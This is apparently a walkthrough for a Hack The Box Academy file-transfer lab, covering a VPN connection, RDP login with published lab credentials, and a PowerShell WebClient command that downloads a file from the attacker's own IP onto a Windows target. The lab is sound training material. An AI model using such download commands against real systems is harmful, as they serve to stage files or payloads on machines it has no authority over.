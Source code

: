 $ sudo openvpn < academy vpn key path > 

# this will connect you to the htb academy vpn if everything goes well

3. Now RDP to the target using the xfreerdp if you don't install it so install it using the following command 

$ sudo apt install xfreerdp

# this will install xfreerdp to your system now rdp to the target using following command

$ xfreerdp /v:[IP of the target here] /u:htb-student /p:HTB_@cademy_stdnt!

# this will connect you to the target pc using rdp 

## NOTE: You have to connect to the academy vpn first otherewise you wont connect to it 

4. Now you connect to the target rdp so open powershell on the system and use the following command to download the file in the system 

##

(New-Object System.Net.WebClient).DownloadFile('http://<Your tun ip here>:8080/upload_win.txt',"C:\Users\Public\Downloads\upload_win.txt")

##

Use this command of the target powershell and note you have to put your Tun IP address to the command first if you don't know your tun ip address so use the following command on your system to view your tun ip address

$ ip a

This will show you all the ip address on your system containing loopback(lo),eth0 and tun0 so use tun0 ip address on the above command

5. when you use above command on the target powershell this will download the upload_win.zip to your target system on the C:\Users\Public\Downloads\Upload_win.txt path so go there and put it on your target desktop and after that open the cmd on your target system

6. After open the cmd on the target use the following command to go to the desktpot of the target system desktop in cmd

$ cd Desktop

when you use above command then "dir" command to see the file if not so will not paste the file to the desktop or you are on the diffrent user desktop so do it right and if your see the file then use the following command

$ hasher upload_win.txt
